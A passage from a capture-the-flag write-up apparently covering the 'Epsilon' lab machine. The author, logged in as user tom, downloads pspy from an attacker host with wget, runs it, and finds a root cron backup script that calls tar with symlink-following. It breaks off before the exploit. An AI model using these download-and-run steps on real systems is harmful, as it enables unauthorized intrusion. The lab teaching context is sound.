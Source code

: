First part is done, now let's move on to the privesc.

**```Privilege escalation```**

We will deploy **pspy** to enumerate the machine:
```bash
tom@epsilon:/tmp$ wget 10.10.14.161/pspy
--2022-07-07 03:27:08--  http://10.10.14.161/pspy
Connecting to 10.10.14.161:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1152160 (1.1M) [application/octet-stream]
Saving to: ‘pspy’

pspy                                 100%[===================================================================>]   1.10M   930KB/s    in 1.2s

2022-07-07 03:27:09 (930 KB/s) - ‘pspy’ saved [1152160/1152160]

tom@epsilon:/tmp$ chmod +x pspy
```

After we run it we find that it's executing a backup script:
```text
tom@epsilon:/tmp$ ./pspy
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2022/07/07 03:28:54 CMD: UID=0    PID=99     |
2022/07/07 03:28:54 CMD: UID=0    PID=98     |
2022/07/07 03:28:54 CMD: UID=0    PID=100    |
2022/07/07 03:28:54 CMD: UID=0    PID=10     |
2022/07/07 03:28:54 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity
2022/07/07 03:29:01 CMD: UID=0    PID=3374   | /usr/sbin/CRON -f
2022/07/07 03:29:01 CMD: UID=0    PID=3375   | /bin/sh -c /usr/bin/backup.sh
2022/07/07 03:29:01 CMD: UID=0    PID=3376   | /bin/bash /usr/bin/backup.sh
2022/07/07 03:29:01 CMD: UID=0    PID=3379   | /usr/bin/tar -cvf /opt/backups/250784282.tar /var/www/app/
2022/07/07 03:29:01 CMD: UID=0    PID=3381   | /bin/bash /usr/bin/backup.sh
2022/07/07 03:29:01 CMD: UID=0    PID=3380   | sha1sum /opt/backups/250784282.tar
2022/07/07 03:29:01 CMD: UID=0    PID=3382   | sleep 5
2022/07/07 03:29:06 CMD: UID=0    PID=3384   | /usr/bin/tar -chvf /var/backups/web_backups/262301287.tar /opt/backups/checksum /opt/backups/250784282.tar
```
